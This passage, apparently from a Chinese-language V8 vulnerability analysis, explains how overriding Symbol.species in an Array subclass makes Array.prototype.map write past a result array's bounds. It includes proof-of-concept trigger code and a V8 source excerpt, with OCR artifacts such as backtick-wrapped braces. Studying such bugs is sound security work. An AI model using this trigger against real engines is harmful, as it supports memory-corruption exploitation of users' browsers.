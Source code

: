 其中

```
static get [Symbol.species]()
```

是固定写法，该函数返回一个类型，那么下一步回调结束，程序就会从Array类里调用构造函数，从而创建了一个Array的对象，假如代码改为如下

```
class Array1 extends Array `{`
  constructor(len) `{`
      print("len=" + len);
      super(len);
    `}`
`}`;

class MyArray extends Array `{`
  static get [Symbol.species]() `{`
      return Array1;
  `}`
`}`

a = new MyArray(1.1,2.2);
var b = a.map(function(x) `{`return x+1`}`);
%DebugPrint(b);
```

由于`static get [Symbol.species]()`返回了Array1，因此map时会从Array1里调用构造函数，此时，我们可以控制`super()`函数里的参数，如下

```
lass Array1 extends Array `{`
  constructor(len) `{`
      super(1);
    `}`
`}`;

class MyArray extends Array `{`
  static get [Symbol.species]() `{`
      return Array1;
  `}`
`}`

a = new MyArray(1.1,2.2);
var b = a.map(function(x) `{`return x+1`}`);
%DebugPrint(b);
```

但是最后映射结果的时候，仍然使用的之前的len，因此在进行函数映射时，由于没有检查用于存放结果的数组的长度，便发生了`越界写`。

```
Node* result =
        CallStub(slow_case_continuation, context(), receiver(), callbackfn(),
                 this_arg(), a_.value(), o(), k_.value(), len(), to_.value());

  Node* len() `{` return len_; `}`
```
